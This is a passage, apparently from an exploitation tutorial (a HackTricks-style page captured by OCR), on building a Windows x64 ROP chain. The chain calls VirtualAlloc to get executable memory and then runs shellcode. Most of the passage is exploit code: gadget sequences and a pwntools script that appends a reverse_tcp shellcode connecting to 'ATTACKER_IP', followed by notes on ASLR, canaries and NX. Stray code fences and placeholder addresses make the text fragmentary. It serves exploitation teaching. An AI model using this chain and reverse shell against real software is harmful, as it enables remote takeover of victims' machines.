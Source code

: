 # RCX = &stack (lpAddress)
LEA_RCX_RSP_RET    # or sequence: load RSP into a GPR then mov rcx, reg
# RDX = size (dwSize)
POP_RDX_RET; 0x1000
# Call VirtualAlloc via the IAT
[IAT_VirtualAlloc]
# New RWX memory at RCX — execution continues at the next stack qword
JMP_SHELLCODE_OR_RET
# ---- stage-2 shellcode (x64) ----
```
```
With a constrained gadget set, you can craft register values indirectly, for example:
- mov r9, rbx; mov r8, 0; add rsp, 8; ret → set r9 from rbx, zero r8, and compensate stack with a junk qword.
- xor rbx, rsp; ret → seed rbx with the current stack pointer.
- push rbx; pop rax; mov rcx, rax; ret → move RSP-derived value into RCX.

Pwntools sketch (given a known base and gadgets):
```python
from pwn import *
base = 0x7ff6693b0000
IAT_VirtualAlloc = base + 0x400000  # example: resolve via reversing
rop  = b''
# r9 = 0x40
rop += p64(base+POP_RBX_RET) + p64(0x40)
rop += p64(base+MOV_R9_RBX_ZERO_R8_ADD_RSP_8_RET) + b'JUNKJUNK'
# rcx = rsp
rop += p64(base+POP_RBX_RET) + p64(0)
rop += p64(base+XOR_RBX_RSP_RET)
rop += p64(base+PUSH_RBX_POP_RAX_RET)
rop += p64(base+MOV_RCX_RAX_RET)
# r8 = 0x1000 via arithmetic if no pop r8
for _ in range(0x1000//0x40):
    rop += p64(base+ADD_R8_R9_ADD_RAX_R8_RET)
# rdx = 0x1000 (use any available gadget)
rop += p64(base+POP_RDX_RET) + p64(0x1000)
# call VirtualAlloc and land in shellcode
rop += p64(IAT_VirtualAlloc)
rop += asm(shellcraft.amd64.windows.reverse_tcp("ATTACKER_IP", ATTACKER_PORT))
```
```
Tips:
- VirtualProtect works similarly if making an existing buffer RX is preferable; the parameter order is different.
- If the stack space is tight, allocate RWX elsewhere (RCX=NULL) and jmp to that new region instead of reusing the stack.
- Always account for gadgets that adjust RSP (e.g., add rsp, 8; ret) by inserting junk qwords.

- [[../../common-binary-protections-and-bypasses/aslr/index.html|**ASLR**]] **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded.
- [[../../common-binary-protections-and-bypasses/stack-canaries/index.html|**Stack Canaries**]] should be also disabled or the compromised EIP return address won't never be followed.
- [[../../common-binary-protections-and-bypasses/no-exec-nx.md|**NX**]] **stack** protection would prevent the execution of the shellcode inside the stack because that region won't be executable.
```